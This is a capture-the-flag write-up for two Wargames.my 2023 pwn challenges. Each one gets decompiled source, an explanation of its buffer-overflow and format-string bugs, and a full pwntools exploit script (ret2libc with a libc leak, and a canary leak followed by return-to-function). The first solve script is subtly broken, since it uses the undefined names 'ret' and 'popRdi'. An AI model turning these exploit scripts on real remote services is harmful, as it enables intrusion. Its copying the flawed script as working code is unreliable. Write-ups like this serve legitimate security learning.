 ```yaml
---
toc: true
title: "WGMY CTF"
description: Wargames.my
date: 2023-12-16
author: Duc Anh Nguyen
---
```


## [1. Pwn: Magic Door](https://github.com/heckintosh/CTF/tree/main/WargamesMy/Pwn/magic-door/challenge)
```shell
pwndbg> checksec
[*] '/home/kali/CTF/WargamesMy/Pwn/magic-door/challenge/magic_door'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
<details open>
  <summary><b>Source</b></summary>

  ```c
  char *open_the_door()
{
  char s1[12]; // [rsp+0h] [rbp-10h] BYREF
  int v2; // [rsp+Ch] [rbp-4h]

  initialize();
  puts("Welcome to the Magic Door !");
  printf("Which door would you like to open? ");
  __isoc99_scanf("%11s", s1); // Enter 050015 here
  getchar();
  if ( !strcmp(s1, "50015") )
    return (char *)no_door_foryou();
  v2 = atoi(s1);
  if ( v2 != 50015 )
    return (char *)no_door_foryou();
  else
    return magic_door();
}
```

```c
char *magic_door()
{
  char s[8]; // [rsp+10h] [rbp-40h] BYREF
  __int64 v2; // [rsp+18h] [rbp-38h]
  __int64 v3; // [rsp+20h] [rbp-30h]
  __int64 v4; // [rsp+28h] [rbp-28h]
  __int64 v5; // [rsp+30h] [rbp-20h]
  __int64 v6; // [rsp+38h] [rbp-18h]
  __int64 v7; // [rsp+40h] [rbp-10h]
  __int64 v8; // [rsp+48h] [rbp-8h]

  *(_QWORD *)s = 0LL;
  v2 = 0LL;
  v3 = 0LL;
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  puts("Congratulations! You opened the magic door!");
  puts("Where would you like to go? ");
  return fgets(s, 256, stdin);
}
  ```
</details>

Easy to see that there is a buffer overflow in magic_door. In order to get to it you have to pass the `open_the_door` function first. The task is to pass these two seemmingly contradicting conditions:

| Conditions      | Description |
| ----------- | ----------- |
|`!strcmp(s1, "50015")` |    strcmp returns 0 if equal -> if "50015" is entered: !0 -> true and you are not able to proceed|
|`v2 = atoi(s1); v2 != 50015`|  Check if atoi(input) == 50015|

Enter 050015 should satisfy first condition and atoi will ignore leading zero also. Now it's just ret2libc for the `magic_door` function (since NX is enabled so no shellcode). Now is just to leak the libc address via puts and perform ret2libc.

<details>
<summary><b>solve.py</b></summary>

```python
from pwn import *
import os
from LibcSearcher import *

context.arch = 'amd64'
pty = process.PTY
is_local = False
is_remote = False

elf = ELF("/home/kali/CTF/WargamesMy/Pwn/magic-door/challenge/magic_door")
if len(sys.argv) == 1:
    is_local = True
    p = process(elf.path, stdin=pty, stdout=pty)

elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)


#debug(cmd='''b *magic_door+135''')
print(p.recvuntilS("open?"))

p.sendline("050015")
print(p.recvuntilS("go?"))

rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.symbols['main']

log.info("pop rdi: " + hex(pop_rdi))
log.info("Puts@plt: " + hex(puts_plt))
log.info("Puts got: " + hex(puts_got))
log.info("Main: " + hex(main))

payload = b'A' * 72 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main) # leak put address and return to main to execute system command after knowing libc
p.sendline(payload)

p.recv()
puts_leak = u64(p.recv(6).ljust(8,b"\x00")) 

log.info("Puts leak " + hex(puts_leak))
libc = LibcSearcher("puts", puts_leak) # using libc searcher right here, if there is libc error you have to manually addd libc to libcsearcherfolder.

p.sendlineafter(b"Which door would you like to open?",b"050015")

rop  = b"A"* 72
rop += ret + popRdi + p64(next(libc.search(b"/bin/sh"))) + p64(libc.symbols["system"])

p.sendlineafter(b"Where would you like to go?",rop)
p.interactive()

#print(p.recvall(timeout=1))

```
</details>


## [2. Pwn: Pakmat Burger](https://github.com/heckintosh/CTF/tree/main/WargamesMy/Pwn/pakmatburger/challenge)

<details open>
<summary><b>Source</b></summary>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  const char *s2; // [rsp+0h] [rbp-40h]
  char s1[9]; // [rsp+Ah] [rbp-36h] BYREF
  char phonenum[10]; // [rsp+13h] [rbp-2Dh] BYREF
  char format[12]; // [rsp+1Dh] [rbp-23h] BYREF
  char v8[15]; // [rsp+29h] [rbp-17h] BYREF
  unsigned __int64 v9; // [rsp+38h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  initialize(argc, argv, envp);
  s2 = getenv("SECRET_MESSAGE");
  if ( s2 )
  {
    puts("Welcome to Pak Mat Burger!");
    printf("Please enter your name: ");
    __isoc99_scanf("%11s", format);
    printf("Hi ");
    printf(format);
    printf(", to order a burger, enter the secret message: ");
    __isoc99_scanf("%8s", s1);
    if ( !strcmp(s1, s2) )
    {
      puts("Great! What type of burger would you like to order? ");
      __isoc99_scanf("%14s", v8);
      getchar();
      printf("Please provide your phone number, we will delivered soon: ");
      return (unsigned int)fgets(phonenum, 100, stdin);
    }
    else
    {
      puts("Sorry, the secret message is incorrect. Exiting...");
      return 0;
    }
  }
  else
  {
    puts("Error: SECRET_MESSAGE environment variable not set. Exiting...");
    return 1;
  }
}
```

```c
int secret_order()
{
  return system("cat ./flag.txt");
}
```
</details>

Examining the source code, there is a format string vulnerability in `printf(format)`. Using this we can leak the secret and bypass the secret requirements. Use %1$p for example to leak an address on the stack.

 Also we can use it to bypass the canary. `return (unsigned int)fgets(phonenum, 100, stdin);` is just straight up a buffer overflow vulnerability. Phonenum length is only 10 but `fgets` allows 100 characters to be put in the array. Overflow and return to the `secret_order` function to get the flag. 

Since the secret does not change and I can only use the format vulnerablity to leak two out of three key information for this challenge, I have to connect to the server twice, first call is to leak the secret and the second time is for full exploitation.

<details open>
<summary><b>solve.py</b></summary>

```python
from pwn import *
import os
import re

context.arch = 'amd64'
pty = process.PTY
is_local = False
is_remote = False

elf = ELF("/home/kali/CTF/WargamesMy/Pwn/pakmatburger/challenge/pakmat_burger")
if len(sys.argv) == 1:
    is_local = True
    p = process(elf.path, stdin=pty, stdout=pty)

elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)



# Grab secret the first time
print(p.recvuntilS("name:"))
p.sendline(b"%6$s")
secret = p.recvuntil(",")[:-1].decode().split()[1]
log.info("Secret " + secret)
p.close()

# Run again:
# p = process(elf.path, stdin=pty, stdout=pty)
p = remote(host,port)
# debug(cmd='''
# b *main+373
# ''')

print(p.recvuntilS("name:"))
p.sendline(b"%13$p.%17$p") # 13 is canary, 17 is main
leak = p.recvuntil(",")[:-1].decode().split()[1].split(".")
canary = leak[0]
main_leak = leak[1]
pop_rdi = 0x000000000000101a

log.info("Canary " + canary)
log.info("Main " + main_leak)
canary = int(canary, 16)
main_leak = int(main_leak, 16)
ret_offset = main_leak + 394  # calculate these by deducing them in gdb 
secret_offset = main_leak - 22
log.info("Ret " + f"0x{ret_offset:016x}")
log.info("Secret Order " + f"0x{secret_offset:016x}") # Calculate secret order address
p.sendline(secret)

print(p.recvuntilS("order?"))
p.sendline(b"Test")
print(p.recvuntilS("soon:"))

payload = b"A"*37 + p64(canary) + b"A"*8 + p64(ret_offset) + p64(secret_offset)  # Overflow the buffer and return to the secret function.

p.sendline(payload)
p.recvall(timeout = 1)
# """ 
# Code For finding offset from canary til ret. it was 8 
# p.wait()
# core = p.corefile
# stack = core.rsp
# log.info("rsp = %#x", stack)
# pattern = core.read(stack, 4)
# rip_offset = cyclic_find(pattern)
# log.info("rip offset is %d", rip_offset)
# """

p.interactive()
```
</details>